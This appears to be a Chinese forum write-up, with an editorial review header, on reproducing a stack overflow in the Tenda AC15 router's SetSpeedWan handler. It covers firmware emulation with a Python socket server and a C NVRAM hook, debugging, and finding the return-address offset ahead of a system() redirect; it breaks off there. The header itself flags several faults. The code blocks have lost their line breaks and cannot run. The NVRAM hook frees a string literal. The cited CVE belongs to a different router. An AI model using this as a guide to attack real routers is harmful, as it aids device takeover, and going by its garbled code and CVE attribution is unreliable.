








# Tenda AC15 SetSpeedWan 栈溢出研究（原编号归属待核）

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：实验Tenda AC15，开头CVE描述FH1202
- 本文讨论：声称CVE-2024-2986 / CNVD-2025-31165 SetSpeedWan speed_dir
- 版本、权限与配置前提：AC15_V15.03.05.19；模拟CFM/NVRAM，需登录，固定栈/库地址
- 资料类型：ARM仿真与ROP复现；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

保留为 Tenda AC15 的待核研究分析：正文包含固件仿真、NVRAM 环境处理、栈布局和调试过程，不能仅因代码采集损坏而隐藏整份分析。原题 CVE 与实验型号的绑定撤出主编号索引，原始代码、失败条件与图片保留；不视为可直接运行的 PoC。

### 逐项校订

- 2026-10-02 核对 [CVE-2024-2986 原始记录](https://raw.githubusercontent.com/CVEProject/cvelistV5/main/cves/2024/2xxx/CVE-2024-2986.json)，记录对象为 FH1202 1.2.0.14(408)，不能直接套用于本页 AC15 实验；CVE-2024-2986 与 CNVD-2025-31165 只留为原文待核关联，不作为已确定主编号
- 所有Shell/Python/C块丢换行与词间空格，无法直接运行/编译；sprintf字符串引号损坏
- NVRAM辅助函数get失败返回字面量空串，match会free该指针，存在实验工具自身错误
- 无固件哈希/原文直链和修复，hardcoded地址不具通用性

### 操作风险与恢复

- 文中写入/上传步骤会创建或覆盖目标文件；须先核对服务账户写权限、保存路径和脚本解析条件，验证后按原路径核查残留
- 延时探针会占用线程或数据库连接；需记录基线和对照，单次慢响应或超时不足判定注入

### 待核与来源

- AC15是否同一CVE、认证行为及仿真hook对结果影响待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->

易之生生
                    易之生生  看雪学苑   2026-03-04 09:59  
  
CNVD 最近公开了CNVD-2025-31165(CVE-2024-2986) 漏洞，漏洞描述为：  
> Tenda FH1202是腾达品牌推出的一款双频无线路由器，专为大户型家庭、小型办公室或商务休闲区域设计，旨在提供稳定的无线网络覆盖和高速传输。  
>   
> Tenda FH1202存在堆栈缓冲区溢出漏洞，该漏洞源于/goform/SetSpeedWan文件的formSetSpeedWan方法的speed_dir参数未能正确验证输入数据的长度大小，攻击者可利用该漏洞在系统上执行任意代码或者导致拒绝服务。  
  
  
```
int __fastcall formSetSpeedWan(_DWORD *a1){  _DWORD nptr[8]; // [sp+10h] [bp-5Ch] BYREF  _DWORD s[8]; // [sp+30h] [bp-3Ch] BYREFvoid *v5; // [sp+50h] [bp-1Ch]char *nptr_1; // [sp+54h] [bp-18h]char *nptr_2; // [sp+58h] [bp-14h]int v8; // [sp+5Ch] [bp-10h]memset(s, 0, sizeof(s));memset(nptr, 0, sizeof(nptr));  v8 = 0;  nptr_2 = (char *)sub_2BA8C((int)a1, (int)"speed_dir", (int)"0");  nptr_1 = (char *)sub_2BA8C((int)a1, (int)"ucloud_enable", (int)"0");  ...  ...  ... sprintf((char *)s, "{"errCode":%d,"speed_dir":%s}", v8, nptr_2);return sub_9CCBC(a1, (constchar *)s);}
```  
  
##   
  
**环境模拟**  
  
软件版本 :AC15_V15.03.05.19  
  
  
binwalk 分析 Squashfs 的系统文件  
  
```
binwalk US_AC15V1.0BR_V15.03.05.19_multi_TD01.binDECIMAL       HEXADECIMAL     DESCRIPTION--------------------------------------------------------------------------------64            0x40            TRX firmware header, little endian, image size:10629120 bytes, CRC32:0xAB135998, flags:0x0, version:1, header size:28 bytes, loader offset:0x1C, linux kernel offset:0x1C9E58, rootfs offset:0x092            0x5C            LZMA compressed data, properties:0x5D, dictionary size:65536 bytes, uncompressed size:4585280 bytes1875608       0x1C9E98        Squashfs filesystem, little endian, version 4.0, compression:xz, size:8749996 bytes, 928 inodes, blocksize:131072 bytes, created:2017-05-26 02:03:03
```  
  
  
  
执行 binwalk -e -1 解压  
  
```
binwalk -e -1 US_AC15V1.0BR_V15.03.05.19_multi_TD01.binDECIMAL       HEXADECIMAL     DESCRIPTION--------------------------------------------------------------------------------64            0x40            TRX firmware header, little endian, image size:10629120 bytes, CRC32:0xAB135998, flags:0x0, version:1, header size:28 bytes, loader offset:0x1C, linux kernel offset:0x1C9E58, rootfs offset:0x092            0x5C            LZMA compressed data, properties:0x5D, dictionary size:65536 bytes, uncompressed size:4585280 bytes1875608       0x1C9E98        Squashfs filesystem, little endian, version 4.0, compression:xz, size:8749996 bytes, 928 inodes, blocksize:131072 bytes, created:2017-05-26 02:03:03
```  
  
  
  
根据 ./etc_ro/init.d/rcS 的脚本来创建环境目录  
  
```
mkdir -p /var/etcmkdir -p /var/mediamkdir -p /var/webrootmkdir -p /var/etc/iproutemkdir -p /var/runcp -rf /etc_ro/* /etc/cp -rf /webroot_ro/* /webroot/mkdir -p /var/etc/upanmount -amount -t ramfs /devmkdir /dev/ptsmount -t devpts devpts /dev/ptsmount -t tmpfs none /var/etc/upan -o size=2Mmdev -smkdir /var/run
```  
  
  
  
创建 br0 的虚拟网卡  
  
```
ip link add name br0 type bridgeip link set br0 upip addr add 192.168.3.3/24 dev br0
```  
  
  
  
根据 libCfm.so 的 GetValue 函数创建 Unix Domain Socket ， 发送信息的格式如下 :  
  
```
00000000 struct CMDINFO // sizeof=0x7E000000000 {                                       // XREF: CommitUrlCfm/r00000000                                         // CommitUrlCfm/r ...00000000     int cmd;00000004     char name[512];                     // XREF: CommitUrlCfm+70/o00000004                                         // CommitUrlCfm+B4/o ...00000204     char value[1500];                   // XREF: GetValue+104/w00000204                                         // GetUrlValue+100/w ...000007E0 };
```  
  
  
  
创建 Unix Domain Socket /var/cfm_socket 的 uds_server.py 脚本代码如下 :  
  
```
import socketimport osimport timeimport configparserimport structimport hexdump# --- 配置 ---# SOCKET_PATH = '/var/cfm_socket'# SOCKET_PATH = '/tmp/cfm_socket'SOCKET_PATH = '/kctf/tenda/tendaac15/var/cfm_socket'BUFFER_SIZE = 2016  # 定义一次接收的最大字节数config = configparser.RawConfigParser()config.read("default.ini", encoding='utf-8')def parse_cmdinfo(data):# 检查数据长度if len(data) != 2016:raise ValueError("数据包大小不正确，应为2016字节")# 使用struct.unpack解析（格式：小端序整数 + 512字节字符串 + 1500字节字符串）    cmd, name_bytes, value_bytes = struct.unpack('<i512s1500s', data)# 找到第一个0x00的位置并截断    name_end = name_bytes.find(b'\x00')if name_end != -1:        name_bytes = name_bytes[:name_end]    value_end = value_bytes.find(b'\x00')if value_end != -1:        value_bytes = value_bytes[:value_end]# 处理字符串：去除可能的null填充并解码（假设C发送的是ASCII字符串）    name = name_bytes.rstrip(b'\x00').decode('ascii', errors='ignore')    value = value_bytes.rstrip(b'\x00').decode('ascii', errors='ignore')return cmd, name, valuedef pack_cmdinfo(cmd, name, value):"""    将cmd、name、value打包成2016字节的二进制数据    :param cmd: int, 命令编号    :param name: str, 名称（最多511字符，留1位给null）    :param value: str, 值（最多1499字符，留1位给null）    :return: bytes, 打包后的二进制数据    """# 1. 转换为字节（假设C使用ASCII编码，实际可能是UTF-8或其他）    name_bytes = name.encode('ascii')[:511]  # 截断超长部分    value_bytes = value.encode('ascii')[:1499]# 2. 填充到固定大小（用null字节填充）    name_padded = name_bytes + b'\x00' * (512 - len(name_bytes))    value_padded = value_bytes + b'\x00' * (1500 - len(value_bytes))# 3. 打包（小端序，与解析时一致）# 格式：i (4字节整数) + 512s + 1500s    packed = struct.pack('<i512s1500s', cmd, name_padded, value_padded)return packed# --- 服务器逻辑 ---def run_uds_server():# 1. 清理：如果套接字文件已存在，则删除它try:if os.path.exists(SOCKET_PATH):            os.remove(SOCKET_PATH)except OSError as e:print(f"{e}")return# 2. 创建套接字    server_socket = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)try:# 3. 绑定和监听        server_socket.bind(SOCKET_PATH)        server_socket.listen(5) # 允许5个挂起连接# 4. 确保权限（可选，确保其他程序可以连接）        os.chmod(SOCKET_PATH, 0o666) while True:# 5. 接受新连接            conn, addr = server_socket.accept()try:while True:# 6. 接收数据                    received_data = conn.recv(BUFFER_SIZE)if received_data:# 打印接收到的数据# hexdump.hexdump(received_data)# print('\n')                        cmd, name, value = parse_cmdinfo(received_data)print(f"received_data-> cmd: {cmd} name: {name} value: {value}")if value != "":                            config.set('DEFAULT', name, value)                        cmd = cmd + 1                        value = config['DEFAULT'].get(name, '')                        response_data = pack_cmdinfo(cmd, name, value)print(f"response_data-> cmd: {cmd} name: {name} value: {value}")# hexdump.hexdump(response_data)# print('\n')                        conn.sendall(response_data)else:                        time.sleep(1)# print("No data received.")except Exception as e:print(f"{e}")finally:# 8. 关闭连接                conn.close()except KeyboardInterrupt:print("Ctrl+C...")except Exception as e:print(f"{e}")finally:# 9. 最终清理# 将修改写入配置文件with open('default.ini', 'w', encoding='utf-8') as configfile:            config.write(configfile)        server_socket.close()if os.path.exists(SOCKET_PATH):            os.remove(SOCKET_PATH)if __name__ == "__main__":# 由于 /var 目录通常需要 root 权限，您需要使用 sudo 运行此脚本    run_uds_server()
```  
  
  
  
default.ini 是 /webroot/default.cfg 转换的， 唯一的问题是程序客户端代码使用的是长连接的方式， 断开后还需要重启 uds_server.py 程序。  
  
  
此外， 还需要模拟 bcm_nvram_* 函数：  
  
```
001114D0		bcm_nvram_set	.dynsym001114EC		bcm_nvram_match	.dynsym00111540		bcm_nvram_get	.dynsym00111660		bcm_nvram_commit	.dynsym
```  
  
  
  
HOOK NVRAM 的代码 hook_nvram.c 如下 :  
  
```
#include <stdio.h>#include <stdlib.h>#include <string.h>// #include <ctype.h>#include <stdbool.h>#include <errno.h>// 假设配置文件路径#define ROUTE_CONFIG_PATH "/tmp/nvram_default.cfg"#define MAX_LINE_LENGTH 256#define MAX_KEY_LENGTH 64#define MAX_VALUE_LENGTH 128#define isspace(c) my_isspace(c)intmy_isspace(int c) {// 标准 C 定义的空白字符：空格、制表符、换行、回车、换页、垂直制表符return (c == ' '  ||            c == '\t' ||            c == '\n' ||            c == '\r' ||            c == '\f' ||            c == '\v');}intbcm_nvram_set(constchar *key, constchar *value){    FILE *fp_read, *fp_write;char line[MAX_LINE_LENGTH];char config_key[MAX_KEY_LENGTH];char config_value[MAX_VALUE_LENGTH];char temp_file[] = "/tmp/nvram.ini.tmp";int found = 0;int result = 0;// 参数检查if (!key || strlen(key) == 0 || !value) {fprintf(stderr, "Error: Invalid key or value parameter\n");return 1;    }// 验证key不包含等号或换行符if (strchr(key, '=') != NULL || strchr(key, '\n') != NULL) {fprintf(stderr, "Error: Key contains invalid characters\n");return 1;    }// 验证value不包含换行符if (strchr(value, '\n') != NULL) {fprintf(stderr, "Error: Value contains newline character\n");return 1;    }// 打开原配置文件用于读取    fp_read = fopen(ROUTE_CONFIG_PATH, "r");// 创建临时文件用于写入    fp_write = fopen(temp_file, "w");if (fp_write == NULL) {fprintf(stderr, "Error: Cannot create temp file: %s\n", strerror(errno));if (fp_read) fclose(fp_read);return 1;    }// 如果原文件存在，逐行处理if (fp_read != NULL) {while (fgets(line, sizeof(line), fp_read) != NULL) {char *trimmed_line = line;bool is_comment_or_empty = false;// 移除换行符            line[strcspn(line, "\n")] = '\0';// 跳过空行和注释行（以#开头）if (line[0] == '\0' || line[0] == '#') {                is_comment_or_empty = true;            }// 移除行首空白字符while (isspace((unsignedchar)*trimmed_line)) {                trimmed_line++;            }// 跳过只有空白字符的行if (*trimmed_line == '\0') {                is_comment_or_empty = true;            }// 如果是注释或空行，直接写入临时文件if (is_comment_or_empty) {fprintf(fp_write, "%s\n", line);continue;            }// 解析 key=value 格式if (sscanf(trimmed_line, "%63[^=]=%127[^\n]", config_key, config_value) >= 1) {// 去除键名可能的尾部空白char *trimmed_key = config_key + strlen(config_key) - 1;while (trimmed_key > config_key && isspace((unsignedchar)*trimmed_key)) {                    *trimmed_key = '\0';                    trimmed_key--;                }// 检查是否匹配请求的键if (strcmp(config_key, key) == 0) {// 找到匹配的键，写入新的值fprintf(fp_write, "%s=%s\n", key, value);                    found = 1;                } else {// 不是我们要修改的键，原样写入fprintf(fp_write, "%s\n", line);                }            } else {// 格式错误的行，原样写入fprintf(fp_write, "%s\n", line);            }        }fclose(fp_read);    }// 如果没找到键，在文件末尾添加if (!found) {fprintf(fp_write, "%s=%s\n", key, value);    }// 关闭临时文件fclose(fp_write);// 用临时文件替换原文件if (rename(temp_file, ROUTE_CONFIG_PATH) != 0) {fprintf(stderr, "Error: Cannot replace config file: %s\n", strerror(errno));// 尝试删除临时文件remove(temp_file);        result = 1;    }printf("[DEBUG] Setting config: %s = %s\n", key, value);return result;}char *bcm_nvram_get(constchar *key){    FILE *fp;char line[MAX_LINE_LENGTH];char config_key[MAX_KEY_LENGTH];char config_value[MAX_VALUE_LENGTH];char *result = NULL;int found = 0;// 参数检查if (!key || strlen(key) == 0) {fprintf(stderr, "Error: Invalid key parameter\n");return NULL;    }// 打开配置文件    fp = fopen(ROUTE_CONFIG_PATH, "r");if (fp == NULL) {fprintf(stderr, "Error: Cannot open config file %s: %s\n", ROUTE_CONFIG_PATH, strerror(errno));return NULL;    }// 逐行读取配置文件while (fgets(line, sizeof(line), fp) != NULL) {// 移除换行符        line[strcspn(line, "\n")] = '\0';// 跳过空行和注释if (line[0] == '\0' || line[0] == '#') {continue;        }// 移除行首空白字符char *trimmed_line = line;while (isspace((unsignedchar)*trimmed_line)) {            trimmed_line++;        }// 跳过空行（只有空白字符的行）if (*trimmed_line == '\0') {continue;        }// 解析 key=value 格式if (sscanf(trimmed_line, "%63[^=]=%127[^\n]", config_key, config_value) == 2) {// 去除键名可能的尾部空白char *trimmed_key = config_key + strlen(config_key) - 1;while (trimmed_key > config_key && isspace((unsignedchar)*trimmed_key)) {                *trimmed_key = '\0';                trimmed_key--;            }// 去除键值可能的首部空白char *trimmed_value = config_value;while (isspace((unsignedchar)*trimmed_value)) {                trimmed_value++;            }// 去除键值可能的尾部空白char *end_value = trimmed_value + strlen(trimmed_value) - 1;while (end_value > trimmed_value && isspace((unsignedchar)*end_value)) {                *end_value = '\0';                end_value--;            }// 检查是否匹配请求的键if (strcmp(config_key, key) == 0) {// 分配内存并复制值                result = malloc(strlen(trimmed_value) + 1);if (result) {strcpy(result, trimmed_value);                    found = 1;                } else {fprintf(stderr, "Error: Memory allocation failed\n");                }break; // 找到配置项，退出循环            }        }    }fclose(fp);if (result) {printf("[DEBUG] Getting config: %s = %s\n", key, result);    } else {        result = "";printf("[DEBUG] Config not found: %s\n", key);    }if (!found) {// 不打印警告，让调用者决定是否记录        result = "";    }return result;}boolbcm_nvram_match(constchar *key, constchar *value){bool result = false;char *config_value = bcm_nvram_get(key);if (config_value && value) {        result = (strcmp(config_value, value) == 0);    }printf("[DEBUG] Match config: %s = %s, result: %s\n",            key, value, result ? "true" : "false");if (config_value) {free(config_value);    }return result;}intbcm_nvram_commit(void){#ifdef __linux__sync();#endifprintf("[DEBUG] Save config\n");return 0;}intbcm_nvram_unset(constchar *key){    FILE *fp_read, *fp_write;char line[MAX_LINE_LENGTH];char config_key[MAX_KEY_LENGTH];char config_value[MAX_VALUE_LENGTH];char temp_file[] = "/tmp/route.cfg.tmp";int found = 0;int result = 0;// 参数检查if (!key || strlen(key) == 0) {fprintf(stderr, "Error: Invalid key parameter\n");return 1;    }// 打开原配置文件用于读取    fp_read = fopen(ROUTE_CONFIG_PATH, "r");if (fp_read == NULL) {// 文件不存在，不需要删除printf("[DEBUG] Unset config: %s (file not exists)\n", key);return 0;    }// 创建临时文件用于写入    fp_write = fopen(temp_file, "w");if (fp_write == NULL) {fprintf(stderr, "Error: Cannot create temp file: %s\n", strerror(errno));fclose(fp_read);return 1;    }// 逐行读取原文件while (fgets(line, sizeof(line), fp_read) != NULL) {char *trimmed_line = line;bool is_comment_or_empty = false;// 移除换行符        line[strcspn(line, "\n")] = '\0';// 跳过空行和注释行（以#开头）if (line[0] == '\0' || line[0] == '#') {            is_comment_or_empty = true;        }// 移除行首空白字符while (isspace((unsignedchar)*trimmed_line)) {            trimmed_line++;        }// 跳过只有空白字符的行if (*trimmed_line == '\0') {            is_comment_or_empty = true;        }// 如果是注释或空行，直接写入临时文件if (is_comment_or_empty) {fprintf(fp_write, "%s\n", line);continue;        }// 解析 key=value 格式if (sscanf(trimmed_line, "%63[^=]=%127[^\n]", config_key, config_value) == 2) {// 去除键名可能的尾部空白char *trimmed_key = config_key + strlen(config_key) - 1;while (trimmed_key > config_key && isspace((unsignedchar)*trimmed_key)) {                *trimmed_key = '\0';                trimmed_key--;            }// 检查是否匹配请求的键if (strcmp(config_key, key) == 0) {// 找到匹配的键，跳过不写入（即删除）                found = 1;continue;            } else {// 不是我们要删除的键，原样写入fprintf(fp_write, "%s\n", line);            }        } else {// 格式错误的行，原样写入fprintf(fp_write, "%s\n", line);        }    }// 关闭文件fclose(fp_read);fclose(fp_write);// 用临时文件替换原文件if (rename(temp_file, ROUTE_CONFIG_PATH) != 0) {fprintf(stderr, "Error: Cannot replace config file: %s\n", strerror(errno));// 尝试删除临时文件remove(temp_file);        result = 1;    }printf("[DEBUG] Unset config: %s %s\n", key, found ? "deleted" : "not found");return result;}
```  
  
  
  
/tmp/nvram_default.cfg 是 /webroot/nvram_default.cfg 复制过来的。  
  
  
查看 httpd 的 GCC 版本，使用的是 Buildroot ，C 标准库是 uClibc：  
  
```
strings bin/httpd | grep "GCC"GCC_3.5GCC: (GNU) 3.3.2 20031005 (Debian prerelease)GCC: (Buildroot 2012.02) 4.5.3
```  
  
  
  
根据 GITHUB 上的 buildroot 项目， 编译生成支持 ARMv7 + uClibc + soft-float 的 arm-linux-gcc  
  
  
编译命令如下 :  
  
```
./buildroot/output/host/bin/arm-linux-gcc -shared -fPIC hook_nvram.c -o hook_nvram.so -ldl
```  
  
  
  
生成的 hook_nvram.so ELF 信息文件如下 :  
  
```
ELF Header:  Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00Class:                             ELF32  Data:                              2's complement, little endian  Version:                           1 (current)  OS/ABI:                            UNIX - System V  ABI Version:                       0  Type:                              DYN (Shared object file)  Machine:                           ARM  Version:                           0x1  Entry point address:               0x0  Start of program headers:          52 (bytes into file)  Start of section headers:          10940 (bytes into file)  Flags:                             0x5000200, Version5 EABI, soft-float ABI  Size of this header:               52 (bytes)  Size of program headers:           32 (bytes)  Number of program headers:         5  Size of section headers:           40 (bytes)  Number of section headers:         24  Section header string table index: 23Attribute Section: aeabiFile Attributes  Tag_CPU_name: "7VE"  Tag_CPU_arch: v7  Tag_CPU_arch_profile: Application  Tag_ARM_ISA_use: Yes  Tag_THUMB_ISA_use: Thumb-2  Tag_ABI_PCS_wchar_t: 4  Tag_ABI_FP_denormal: Needed  Tag_ABI_FP_exceptions: Needed  Tag_ABI_FP_number_model: IEEE 754  Tag_ABI_align_needed: 8-byte  Tag_ABI_enum_size: int  Tag_CPU_unaligned_access: v6  Tag_MPextension_use: Allowed  Tag_DIV_use: Allowed in v7-A with integer division extension  Tag_Virtualization_use: TrustZone and Virtualization Extensions
```  
  
  
  
主机运行 python ./uds_server.py 创建 ./var/cfm_socket  
  
  
sudo chroot . bin/sh 进入固件目录环境 ，再运行 LD_PRELOAD=/tmp/hook_nvram.so /bin/httpd 开启 HTTP 服务。  
  
```
python ./uds_server.py~ # LD_PRELOAD=/tmp/hook_nvram.so /bin/httpdinit_core_dump 1816:rlim_cur = 0, rlim_max = 0init_core_dump 1825:open core dump successinit_core_dump 1834:rlim_cur = 5242880, rlim_max = 5242880Yes:****** WeLoveLinux******Welcome to ...create socket  fail -1[httpd][debug]----------------------------webs.c,157httpd listen ip = 192.168.3.3 port = 80webs:Listening for HTTP requests at address 192.168.3.3
```  
  
  
  
访问 http://192.168.3.3/login.html 页面如下：  
  
  
  
##   
  
**漏洞利用**  
  
首先查看 httpd 开启的防护如下：  
  
```
checksec ./bin/httpd[*] '/home/chialin/kctf/tenda/tendaac15/bin/httpd'Arch:arm-32-littleRELRO:No RELROStack:No canary foundNX:NX enabledPIE:No PIE (0x8000)
```  
  
  
  
使用调试模式启动 httpd , 然后在 0x0061998 BL sprintf 的溢出点下断点。  
  
  
gdb.txt 的加载脚本如下：  
  
```
file /kctf/tenda/tendaac15/bin/httpdset sysroot /kctf/tenda/tendaac15target remote 127.0.0.1:1234b *0x00061998
```  
  
  
  
python ./uds_server.py 重启uds ， sudo chroot . qemu-arm-static -g 1234 -E LD_PRELOAD=/tmp/hook_nvram.so /bin/httpd 调试模式启动 ， 然后  gdb-multiarch  -x gdb.txt 程序就断在了 _start 开始处。  
  
  
  
  
  
然后使用 cyclic 生成测试字符串 ， 使用 PYTHON POC 脚本的 HTTP 协议进行发送。  
  
```
pwndbg> cyclic 0xffaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaa
```  
  
  
  
程序正常断在 sprintf@plt 函数处  
  
  
  
  
  
查看目的地址 0x407ff9f8 正常情况下的栈数据  
  
  
  
  
  
sprintf 后的栈数据如下：  
  
  
  
  
  
单步运行到函数的结束处  
  
  
  
  
  
可以看到最后是 r11 0x407ffa34 ◂— 0x61616a61 ('ajaa') 的数据被弹出到 PC 寄存器。  
  
  
偏移地址为 35 处  
  
```
pwndbg> cyclic -l ajaaFinding cyclic pattern of 4 bytes: b'ajaa' (hex: 0x616a6161)Found at offset 35
```  
  
  
  
如果调用 system 函数， 需要首先设置 R0 的值指向需要执行的命令地址。  
  
  
但是 system 的函数汇编代码如下：  
  
```
